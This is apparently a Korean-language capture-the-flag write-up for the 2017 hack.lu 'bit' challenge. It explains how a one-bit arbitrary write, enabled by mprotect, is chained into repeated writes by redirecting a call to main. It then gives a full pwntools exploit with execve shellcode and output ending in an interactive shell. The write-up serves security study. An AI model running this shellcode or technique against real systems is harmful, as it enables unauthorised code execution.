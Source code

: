 # 2017 hack.lu - [PWN] bit

## Key words

- x86_64 ELF
- mprotect
- call table

## Solution

문제 내용은 다음과 같습니다

```c
signed __int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  signed __int64 result; // rax@2
  _BYTE *v4; // rsi@5
  _BYTE *v5; // rax@5
  __int64 v6; // rsi@6
  __int64 v7; // [sp+1038h] [bp-8h]@1

  v7 = *MK_FP(__FS__, 40LL);
  if ( __isoc99_scanf("%lx:%u", &input_lx_601018, &input_u_601020) == 2 )
  {
    if ( (unsigned int)input_u_601020 <= 7 )
    {
      mprotect((void *)(input_lx_601018 & 0xFFFFFFFFFFFF1000LL), 0x1000uLL, 7);
      v4 = (_BYTE *)input_lx_601018;
      v5 = (_BYTE *)input_lx_601018;
      *(_BYTE *)input_lx_601018 ^= 1 << input_u_601020;
      *v4 = *v5;
      mprotect((void *)(input_lx_601018 & 0xFFFFFFFFFFFF1000LL), 0x1000uLL, 5);
      result = 0LL;
    }
    else
    {
      result = 0xFFFFFFFFLL;
    }
  }
  else
  {
    result = 0xFFFFFFFFLL;
  }
  v6 = *MK_FP(__FS__, 40LL) ^ v7;
  return result;
}
```

2개의 입력을 받고 해당 위치의 한바이트를 수정해주는데 `mprotect`를 이용하여 읽기, 쓰기 등의 모든 권한을 열어 두기 때문에 어디든지 쓰기가 가능합니다.

문제는 한 바이트만 변경을 해주고 종료가 되기 때문에 한번에 뭔가 익스를 할 수는 없고, 처음 입력을 이용하여 다시 main으로 돌아가 계속 임의 쓰기를 할 수 있도록 변경을 해 주어야 합니다.

제가 노린 지점은 2개의 mprotect 중 2번째 mprotect 위치 입니다. 해당 위치의 어셈을 보면 다음과 같습니다.

```
pwndbg> x/30i 0x400713
   0x400713:	call   0x400520 <mprotect@plt>
   0x400718:	mov    eax,0x0
   0x40071d:	mov    rsi,QWORD PTR [rbp-0x8]
   0x400721:	xor    rsi,QWORD PTR fs:0x28
   0x40072a:	je     0x400731
   0x40072c:	call   0x4004f0 <__stack_chk_fail@plt>
   0x400731:	leave  
   0x400732:	ret    
```

더 자세히 볼 부분은 `call 0x400520 <mprotect@plt>`부분입니다. 이 부분은 어셈 (5바이트) 으로 보면 다음과 같습니다.

```
pwndbg> x/16b 0x400713
0x400713:	0xe8	0x08	0xfe	0xff	0xff	0xb8	0x00	0x00
0x40071b:	0x00	0x00	0x48	0x8b	0x75	0xf8	0x64	0x48
```

`0xe8`은 call 명령을 의미하고 뒤로 `0xfffffe08`이 `mprotect`를 의미합니다. 이는 콜 테이블의 상대주소로 조금만 변경하면 main으로도 변경시킬 수 있습니다. 위 주소에서 `08`부분을 `28`로 변경하게 되면 main으로 되게 됩니다.

이를 위해서 `scanf` 입력을 `400714:5`로 하게 되면 `0x400714` 의 한바이트에 `1 << 5`를 하게 되면 `0xfffffe08` 값이 `0xfffffe28`이 되게 되고 이를 어셈으로 보면 다음과 같이 main을 호출하도록 변경됩니다.

```
pwndbg> x/10i 0x400713
   0x400713:	call   0x400540  ; <-- main 주소 (0x400540)
   0x400718:	mov    eax,0x0
   0x40071d:	mov    rsi,QWORD PTR [rbp-0x8]
   0x400721:	xor    rsi,QWORD PTR fs:0x28
   0x40072a:	je     0x400731
   0x40072c:	call   0x4004f0 <__stack_chk_fail@plt>
   0x400731:	leave  
   0x400732:	ret
```

이제 여러번 수정이 가능하기 때문에 main 뒤쪽에 64비트 쉘 코드를 넣고 마지막으로 다시 `0xfffffe28`을 `0xfffffe08`로 수정하게 되면 쉘 코드가 실행되고 쉘이 떨어 지게 됩니다.

여기서는 `mov eax, 0x0` 뒤쪽인 `0x40071d`부터 쉘 코드를 넣었습니다.

## Solution Code

```python
from pwn import *
import sys

def leak(addr, size, title=""):
	print "*** {} : {} ***".format(hex(addr), title)
	print hexdump(p.leak(addr, size), begin=addr, skip=False)

p = None
server = "flatearth.fluxfingers.net"
port = 1744
DEBUG = 0

if len(sys.argv) >= 2:
	DEBUG = 1
	p = process("./bit")
else:
	DEBUG = 0
	p = remote(server, port)


main = 0x400636
fix  = 0x40071d
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
code = "488b75f86448333425280000007405e8bffdffffc9c3662e0f1f84".decode("hex")

print "shellcode : ", shellcode.encode("hex")

p.sendline("400714:5")

if DEBUG != 0: leak(fix, 0x100, "fix")

# 40071d = 0x48
# 48  0 1 0 0 1 0 0 0
# 31  0 0 1 1 0 0 0 1
#p.sendline("40071d:0")

if DEBUG == 0:
	fix_data = code
else:
	fix_data = p.leak(fix, len(shellcode))

print fix_data.encode("hex")

for i in range(0, len(shellcode)):
	a = bin(ord(shellcode[i]))[2:]
	a = "0" * (8-(len(a)%8)) + a
	a = a[::-1]
	b = bin(ord(fix_data[i]))[2:]
	b = "0" * (8-(len(b)%8)) + b
	b = b[::-1]

	# 76543210
	# 00110001
	# 01001000

	for j in range(0, 8):
		if a[j] != b[j]:
			print "{}:{}".format(hex(fix+i), j)
			p.sendline("{}:{}".format(hex(fix+i), j))

p.sendline("{}:{}".format(hex(0x400714), 5))

#leak(fix, 0x100, "fix")

p.interactive()
```

## Result

```
hackability@ubuntu:~/ctfing/2017_hacklu/pwn/bit$ python sol_bit.py 1
[+] Starting local process './bit': pid 7390
shellcode :  31c048bbd19d9691d08c97ff48f7db53545f995257545eb03b0f05
*** 0x40071d : fix ***
0040071d  48 8b 75 f8  64 48 33 34  25 28 00 00  00 74 05 e8  │H·u·│dH34│%(··│·t··│
0040072d  bf fd ff ff  c9 c3 66 2e  0f 1f 84 00  00 00 00 00  │····│··f.│····│····│
0040073d  0f 1f 00 41  57 41 56 41  55 41 54 55  53 48 81 ec  │···A│WAVA│UATU│SH··│
0040074d  28 10 00 00  48 83 0c 24  00 48 81 c4  20 10 00 00  │(···│H··$│·H··│ ···│
0040075d  4c 8d 25 4c  06 20 00 48  8d 2d 4d 06  20 00 31 db  │L·%L│· ·H│·-M·│ ·1·│
0040076d  41 89 ff 49  89 f6 49 89  d5 4c 29 e5  48 c1 fd 03  │A··I│··I·│·L)·│H···│
0040077d  e8 36 fd ff  ff 48 85 ed  74 1f 66 0f  1f 84 00 00  │·6··│·H··│t·f·│····│
0040078d  00 00 00 4c  89 ea 4c 89  f6 44 89 ff  41 ff 14 dc  │···L│··L·│·D··│A···│
0040079d  48 83 c3 01  48 39 eb 75  ea 48 83 c4  08 5b 5d 41  │H···│H9·u│·H··│·[]A│
004007ad  5c 41 5d 41  5e 41 5f c3  90 66 2e 0f  1f 84 00 00  │\A]A│^A_·│·f.·│····│
004007bd  00 00 00 f3  c3 00 00 48  83 ec 08 48  83 c4 08 c3  │····│···H│···H│····│
004007cd  00 00 00 01  00 02 00 25  6c 78 3a 25  75 00 00 01  │····│···%│lx:%│u···│
004007dd  1b 03 3b 30  00 00 00 05  00 00 00 04  fd ff ff 7c  │··;0│····│····│···|│
004007ed  00 00 00 64  fd ff ff 4c  00 00 00 5a  fe ff ff a4  │···d│···L│···Z│····│
004007fd  00 00 00 64  ff ff ff c4  00 00 00 e4  ff ff ff 0c  │···d│····│····│····│
0040080d  01 00 00 14  00 00 00 00  00 00 00 01  7a 52 00 01  │····│····│····│zR··│
0040081d
488b75f86448333425280000007405e8bffdffffc9c3662e0f1f84
0x40071d:0
0x40071d:3
0x40071d:4
0x40071d:5
<... snip ...>
0x400734:1
0x400734:2
0x400734:3
0x400734:4
0x400734:7
0x400735:2
0x400735:4
0x400735:5
0x400736:4
0x400737:0
0x400737:7
[*] Switching to interactive mode
$ ls
bit  bit-331fce47417bf2194ad7b1e0a0d1da84.zip  core  sol_bit.py
```
